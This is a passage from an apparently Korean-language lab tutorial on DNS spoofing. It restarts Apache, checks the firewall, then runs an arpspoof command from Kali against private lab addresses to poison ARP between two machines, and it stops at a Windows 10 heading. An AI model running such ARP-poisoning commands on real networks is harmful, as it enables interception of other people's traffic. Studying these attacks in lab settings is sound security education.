 ```
- 데몬 재실행
    
    → sudo service apache2 restart
    
- 방화벽 확인
    
    → sudo ufw status
```

- 사이트 출력 <br>
![후](./img/스푸핑img/5.png)

### Step 6. 'Kali' 에서 'DNS Spoofing'으로 두 시스템에 공격을 실행한다.
```
sudo arpspoof -i eth0 -t 192.168.10.130 192.168.10.2
```
- windows 10<br>
